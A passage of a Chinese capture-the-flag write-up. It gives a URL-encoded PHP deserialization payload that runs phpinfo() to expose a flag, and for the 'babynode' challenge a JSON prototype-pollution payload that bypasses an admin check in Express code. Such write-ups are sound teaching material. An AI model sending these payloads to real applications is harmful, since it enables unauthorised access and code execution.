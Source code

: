 ```php
O%3A1%3A%22B%22%3A1%3A%7Bs%3A3%3A%22key%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A7%3A%22%00C%00key2%22%3BO%3A1%3A%22A%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D%7D
```
phpinfo搜索environment获取flag<br />![image.png](./images/20231018_0002177789.png)
# babynode
我们先把网页源码整理一下
```php
app.post('/', function(req, res) {
  var flag='flag';
  var admin = {};
  let user = {};
  try{
    copy(user,req.body);
  } catch (error){
    res.send("copy error");
    return;
  }if(admin.id==='unctf'){
    res.end(flag);
  }else{
    return res.end("error");
  }
})
```
通过req.body即我们post发送的请求体，修改user对象的__proto__。从而污染admin的__proto__<br />payload如下
```php
{"__proto__":{"id":"unctf"}}
```